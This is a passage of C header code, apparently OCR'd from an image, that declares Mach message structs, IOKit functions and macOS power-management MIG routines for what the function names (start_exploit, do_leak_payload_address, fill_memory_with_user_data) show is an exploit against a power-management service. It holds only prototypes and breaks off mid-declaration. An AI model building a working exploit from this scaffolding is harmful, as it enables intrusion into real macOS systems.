```c
    mach_msg_body_t body;
    mach_msg_port_descriptor_t port;
};

struct hp_msg_recv {
    mach_msg_header_t hdr;
    mach_msg_body_t body;
    mach_msg_port_descriptor_t port;
    mach_msg_trailer_t trailer;
};

int do_powend(void);
int do_test(void);
void DumpHex(const void* data, size_t size);
mach_port_t get_service_port(char *);
uint8_t *do_dummy_allocate_p(uint32_t size,char init);
void do_prepare_data(void);

uint64_t do_get_payload_address(uint64_t *,int *);
uint64_t mem_search(uint64_t base, const void* data, size_t size);
void do_leak_payload_address(void);
void start_exploit(void);
int fill_memory_with_user_data(uint64_t target,uint32_t size,uint32_t magic,uint64_t *addr);
extern kern_return_t bootstrap_look_up(mach_port_t bs, const char *service_name, mach_port_t *service);
kern_return_t mach_vm_allocate(vm_map_t target, mach_vm_address_t *address, mach_vm_size_t size, int flags);
/* IOKit */
extern CFDataRef IOCFSerialize( CFTypeRef object, CFOptionFlags options );
extern CFTypeRef IOCFUnserialize(const char *buffer, CFAllocatorRef allocator, CFOptionFlags  options,CFStringRef  *errorString);
typedef char name_t[128];
/* bootstrap */
extern kern_return_t bootstrap_check_in(mach_port_t bp, const name_t service_name,mach_port_t *sp);

/* MIG calls */
kern_return_t io_ps_new_pspowersource
(
 mach_port_t server,
 int *psid,
 int *return_code
 );
/* Routine io_pm_assertion_copy_details */
kern_return_t io_pm_assertion_copy_details
(
 mach_port_t server,
 int assertion_id,
 int whichData,
 vm_offset_t props,
 mach_msg_type_number_t propsCnt,
 vm_offset_t *assertions,
 mach_msg_type_number_t *assertionsCnt,
 int *return_val
 );

/* Routine io_ps_update_pspowersource */
kern_return_t io_ps_update_pspowersource
(
 mach_port_t server,
 int psid,
 vm_offset_t psdetails,
 mach_msg_type_number_t psdetailsCnt,
 int *return_code
```